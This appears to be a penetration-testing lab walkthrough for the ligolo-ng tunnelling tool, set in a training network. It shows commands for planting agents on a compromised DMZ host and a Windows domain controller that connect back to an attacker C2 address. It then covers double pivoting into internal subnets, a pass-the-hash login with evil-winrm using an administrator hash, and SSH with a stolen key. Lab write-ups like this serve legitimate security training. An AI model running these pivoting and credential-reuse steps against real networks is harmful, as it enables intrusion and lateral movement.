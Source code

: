 # Download the files
## Agent File:
```
sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```
```
tar -xvf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```
```
sudo mv agent lin-agent
```
## Proxy File
```
sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```
```
tar -xvf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```
```
sudo mv proxy lin-proxy
```
# Ligolo-ng
## Attack Host
These commands create a tun interface on the Proxy Server (C2).
```
sudo ip tuntap add user root mode tun ligolo
```
```
sudo ip link set ligolo up
```
1. On your machine get ligolo running
```
./lin-proxy -selfcert
```
```
./lin-proxy -selfcert -laddr 0.0.0.0:443 
```
2. Transfer lin-agent to DMZ
## DMZ (10.129.202.17 172.16.8.120)
```
chmod +x lin-agent
```
```
./lin-agent -connect 10.10.14.74:11601 -ignore-cert
```
3. Connection back to our Attack Machine
4. You should see the connection get grabbed by the ligolo tool if the commands were ran successfully on target machine.
5. Next we need to add the internal subnet of the DMZ Host machine to be able to access it, which is 172.16.8.0/32 (/16 did not work so modify it to /32 or /24 until you can add the network and not get an error) then enter start command within the ligolo termnial to start the tunnel to DMZ
```
sudo ip route add 172.16.8.0/32 dev ligolo
```
```
ligolo-ng » session
```
```
? Specify a session : 1 - root@dmz01 - 10.129.202.17:43968
[Agent : root@dmz01] » start
[Agent : root@dmz01] » INFO[0722] Starting tunnel to root@dmz01
```
6. Now we can access any `ip` on the internal network `172.16.8.0/24` from our attack box without the need to input `proxychains`
```
evil-winrm -i 172.16.8.3 -u administrator -H fd1f7e5564060258ea787ddbb6e6afa2
```
# Double Pivoting
To Double Pivot and access the Ubuntu Host (only accessible from Windows Machine DC) we need to have a ligolo session from the Windows DC host (172.16.8.3)
## Attack Host
1. Download agent.exe
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.1-alpha/ligolo-ng_agent_0.7.1-alpha_windows_amd64.zip
```
```
agent.exe
```
2. Transfer agent.exe to the Windows Host P1
3. On the attacker machine, we have to create a listener to send the second host traffic to the proxy server and connect through a tunnel:
```
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```
```
listener_list
```
## Windows DC Host machine 
4. We need to execute the agent.exe file and input the DMZ internal IP address (which is 172.16.8.120, while we added a listener on the same port we will get a new session on ligolo from the Windows DC
```
PS C:\users> ./agent.exe -connect 172.16.8.120:11601 -ignore-cert
```
## Attack Host
5. session created
```
? Specify a session : 2 - INLANEFREIGHT\Administrator@DC01 - 127.0.0.1:47236
```
6. Now we need to add the internal network 172.16.9.0 that is only visible to the Windows DC Host in order to access it from our machine (Ubuntu Host machine has the ip 172.16.9.25)
```
sudo ip route add 172.16.9.0/24 dev ligolo
```
```
ip route
```
7. You should see the following ip routes
```
172.16.8.0/24 dev ligolo scope link 
172.16.9.0/24 dev ligolo scope link
```
8. We can now access the 172.16.9.0/24 network from our host machine
```
ssh -i ssmallsadm_id-rsa ssmallsadm@172.16.9.25
```
**Connection established**
